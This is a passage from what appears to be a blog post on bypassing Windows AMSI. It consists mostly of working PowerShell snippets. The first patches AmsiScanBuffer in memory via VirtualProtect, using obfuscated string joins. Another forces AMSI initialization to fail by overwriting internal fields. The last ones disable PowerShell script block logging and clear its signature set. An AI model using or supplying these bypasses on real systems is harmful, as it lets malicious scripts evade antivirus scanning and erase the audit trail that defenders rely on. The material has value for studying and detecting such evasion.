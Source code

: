 ```PowerShell
}

try{
    $ScanBufferAddress = Get-ProcAddress $('am','si.dll'-join "") $('Am', 'siScanBuffer'-join"");
    Write-Host "[+] ScanBuffer Address: $ScanBufferAddress";

    $VirtualProtectAddr = Get-ProcAddress kernel32.dll VirtualProtect;
    Write-Host "[+] VirtualProtect Address: $VirtualProtectAddr";
    $VirtualProtectDelegate = Get-DelegateType @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]);
    $VirtualProtect = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualProtectAddr, $VirtualProtectDelegate);

    [UInt32]$OldProtect = 0;
    $_ = $VirtualProtect.Invoke($ScanBufferAddress, [uint32]$patch.Length, 0x40, [ref]$OldProtect);

    [System.Runtime.InteropServices.Marshal]::Copy($patch, 0, [IntPtr]$ScanBufferAddress, [uint32]$patch.Length);
    Write-Host "[*] Patch Sucessfull";

}catch{
    Write-Host "[X] $($Error[0])";
}
```

![amsi patch demo](/assets/post/AMSI-bypass/amsi-patch.gif)

### Forcing an error

There is a function called ‍`amsiInitFailed()`, which returns 0 if detected. This bypass basically assigns amsiInitFailed a Boolean value of True to cause AMSI initialization to fail.

```PowerShell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```

### Disable Script Logging

```PowerShell
$settings = [Ref].Assembly.GetType("System.Management.Automation.Utils").GetField("cachedGroupPolicySettings","NonPublic,Static").GetValue($null);
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"] = @{}
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"].Add("EnableScriptBlockLogging", "0")
```

```PowerShell
[Ref].Assembly.GetType("System.Management.Automation.ScriptBlock").GetField("signatures","NonPublic,static").SetValue($null, (New-Object 'System.Collections.Generic.HashSet[string]'))
```

